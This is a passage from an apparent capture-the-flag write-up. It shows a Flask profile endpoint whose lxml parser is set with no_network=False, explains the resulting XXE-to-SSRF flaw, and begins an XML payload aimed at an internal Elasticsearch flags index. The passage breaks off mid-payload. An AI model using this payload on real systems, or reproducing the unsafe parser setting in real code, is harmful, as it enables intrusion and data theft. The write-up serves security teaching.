 ```html
```

We can see a PUT query to API endpoint "/api/profile/4". Let's look wrapper for this route (app/api/users.py):
```python
from lxml import etree

...

@bp.route('/profile/<int:uid>', methods=['PUT'])
@token_auth.login_required
def change_profile(uid):
    ...
    current_user = User.query.get_or_404(uid)
    xml = request.get_data()
    parser = etree.XMLParser(no_network=False)
    try:
        root = etree.fromstring(xml, parser=parser)
        user = root.xpath('user')[0]
        username = user.xpath('username/text()')[0] if user.xpath('username/text()') else ''
        email = user.xpath('email/text()')[0] if user.xpath('email/text()') else ''
        bio = user.xpath('bio/text()')[0] if user.xpath('bio/text()') else ''
    except Exception as e:
        return bad_request(f"Cannot parse the xml: {e}")
    ...
    current_user.username = username
    current_user.email = email
    current_user.bio = bio
    db.session.commit()
    ...
```
For processing XML body using method XMLParser of [lxml](https://lxml.de/) module. The problem is that an unsafe 
option 'no_network=False' is being used. By default, this attribute prevent network access for related files. 
That is why we can try to exploit XML external entity (XXE) for this endpoint to perform server-side 
request forgery (SSRF) and make HTTP request to an internal services like Elasticsearch.

We cannot use the 'username' or 'email' fields for exploitation because they have a database type limitations. 
See app/model.py:
```python
class User(UserMixin, PaginatedAPIMixin, db.Model):
    __tablename__ = "web-user"
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(64), index=True, unique=True)
    password_hash = db.Column(db.String(128))
    email = db.Column(db.String(120), index=True)
    bio = db.Column(db.String())
    ...
```
But the 'bio' field has no such restrictions. We can perform HTTP query to the following API endpoint 
http://192.168.2.5/api/profile/4 (where '4' is your user id) with the next payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE Profile
[
<!ENTITY placeholder SYSTEM "http://custom-es:9200/flags/_search?from=10&size=1&pretty" >
]>
<root>
    <user>
        <username>test1</username>
```